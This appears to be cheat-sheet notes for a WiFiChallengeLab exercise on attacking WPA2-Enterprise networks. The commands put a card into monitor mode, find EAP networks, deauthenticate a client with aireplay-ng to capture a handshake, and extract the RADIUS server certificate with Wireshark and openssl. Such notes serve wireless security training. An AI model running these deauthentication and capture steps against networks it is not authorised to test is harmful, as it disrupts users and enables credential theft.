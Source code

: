 # Explanation

  WPA enterprise uses EAP (Extensible Authentication Protocol)
  Authentication is done using a RADIUS (Remote Authentication Dial-In User Service)
  If Authentication is successful, the result is used in a PMK (Pairwise Master Key) and not PSK

-----------------------

# Discovering the network for MGT Auth
```bash
sudo airmon-ng check kill
sudo airmon-ng start wlan1

sudo airodump-ng wlan1mon
```
CH  2 ][ Elapsed: 30 s ][ 1992-09-11 13:37 ][

 BSSID              PWR Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID

 FC:EC:DA:8F:2E:90  -40     639       19    1   2  300. WPA2 CCMP   MGT  Playtronics

 BSSID              STATION            PWR   Rate    Lost  Packets  Probes

 FC:EC:DA:8F:2E:90  00:DC:FE:82:EF:06  -26   54 -54      0       31  Playtronics

-----------------------

# Creating Certificates

#* 1. If previously created certificates verify validity
```bash
openssl x509 -in CERT_FILENAME -noout -enddate
```
#* 1. If no previous certificates, save traffic with airodump-ng and dauthenticate a client for handshake
```bash
sudo airodump-ng wlan1mon -c 2 -w playtronics --essid Playtronics --bssid FC:EC:DA:8F:2E:90

sudo aireplay-ng -0 0 -a FC:EC:DA:8F:2E:90 -c 00:DC:FE:82:EF:06 wlan1mon

sudo airmon-ng stop wlan1mon
```
#* 2. Grab the certificate
   - In wireshark add filter `tls.handshake.certificate` or `tls.handshake.type == 11`
   - Open %Extensible Authentication Protocal% > %Transport Layer Security% > %Handshake Protocol: Certificate% > %Handshake Protocol: Certificate% > %Certificate%
   - Right click > %Export Packet Bytes% > Save with `.der` extension

#* 3. Display info about certificate
```bash
openssl x509 -inform der -in CERTIFICATE_FILENAME -text

Certificate:
    Data:
        ...
        Issuer: C = ES, ST = Madrid, L = Madrid, O = WiFiChallengeLab, OU = Certificate Authority, CN = WiFiChallengeLab CA, emailAddress = ca@WiFiChallengeLab.com
        ...
        Subject: C = ES, L = Madrid, O = WiFiChallengeLab, OU = Server, CN = WiFiChallengeLab CA, emailAddress = server@WiFiChallengeLab.com
        ...

# For converting the ceritificate to base64 IF NECESSARY
openssl x509 -inform der -in CERTIFICATE_FILENAME -outform pem -out OUTPUT_PEM.crt
```